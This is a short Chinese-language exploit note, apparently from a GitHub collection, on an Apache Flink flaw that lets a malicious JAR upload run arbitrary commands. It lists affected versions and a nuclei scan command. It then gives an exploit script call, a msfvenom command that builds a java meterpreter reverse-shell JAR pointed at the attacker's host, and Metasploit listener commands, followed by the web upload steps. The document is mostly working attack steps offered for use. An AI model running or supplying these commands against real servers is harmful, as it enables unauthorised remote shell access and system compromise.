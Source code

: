 ## 漏洞概述
Apache Flink  恶意JAR包上传，导致任意命令执行，反弹shell

## 影响范围
```http
Flink < 1.11.3
Flink < 1.12.0
```

## POC
```bash
nuclei.exe -tags apache -t cves/ -stats -u http://test.com:8081
```

## EXP

1、Py脚本

```python
python CVE-2020-17518.py http://example.com:8081
```

2、MSF

```bash
#生成木马
msfvenom -p java/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx  LPORT=4444 -f jar > test.jar

#监听端口
use exploit/multi/handler
set payload java/shell/reverse_tcp
set lhost xxx.xxx.xxx.xxx
set lport 4444
run
```

点击查看文件上传页面 -> 点击 Add 上传 jar 文件

## 参考链接

[CVE-2020-17519 & CVE-2020-17518 分析](https://xz.aliyun.com/t/8993?page=1)